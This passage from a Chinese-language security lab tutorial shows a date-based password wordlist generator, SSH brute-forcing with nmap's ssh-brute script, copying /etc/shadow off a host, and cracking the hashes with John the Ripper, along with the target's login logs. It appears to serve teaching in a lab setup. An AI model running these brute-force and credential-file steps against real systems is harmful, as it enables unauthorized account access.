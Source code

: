 ```sh
dt = timedelta(days=1)

with open('/tmp/mima.txt', 'w') as f:
    while d1 < d2:
        d1 += dt
        f.write("%s\n" % d1.strftime('%Y%m%d'))
┌──(kali㉿kali)-[~]
└─$ python3 mydate.py

# 3. 使用自己的密码本破解密码
┌──(kali㉿kali)-[~]
└─$ sudo nmap --script=ssh-brute.nse --script-args userdb=/tmp/users.txt,passdb=/tmp/mima.txt 192.168.88.100 -p 22

# 4. 目标主机将会记录所有的登陆事件
[root@web1 ~]# vim /var/log/secure
# 查看最近的登陆失败事件
[root@web1 ~]# lastb
# 查看最近的登陆成功事件
[root@web1 ~]# last
```

### john破解密码

> - 哈希是算法，英文hash的音译，包括md5、sha等
>   - 哈希算法是一种单向加密的算法，也就是将原始数据生成一串“乱码”
>   - 只能通过原始数据，生成这串“乱码”，但是不能通过“乱码”回推出原始数据
>   - 相同的原始数据，生成的乱码是相同的。
> - kali系统提供了一个名为john的工具，可用于密码破解

```sh
[root@web1 ~]# echo 123456 | passwd --stdin root
[root@web1 ~]# useradd tom
[root@web1 ~]# echo abc123 | passwd --stdin tom
[root@web1 ~]# useradd jerry
[root@web1 ~]# echo 123123 | passwd --stdin jerry
[root@web1 ~]# scp /etc/shadow kali@192.168.88.40:/home/kali/

# 字典暴力破解，密码本是/usr/share/john/password.lst
┌──(kali㉿kali)-[~]
└─$ sudo john shadow  

# 直接显示破解的密码，不显示其他额外信息
┌──(kali㉿kali)-[~]
└─$ sudo john --show shadow                
root:123456:18912:0:99999:7:::
tom:abc123:18912:0:99999:7:::
jerry:123123:18912:0:99999:7:::


# 字典暴力破解，指定密码本文件
┌──(kali㉿kali)-[~]
└─$ sudo john --wordlist=/tmp/mima.txt shadow
```
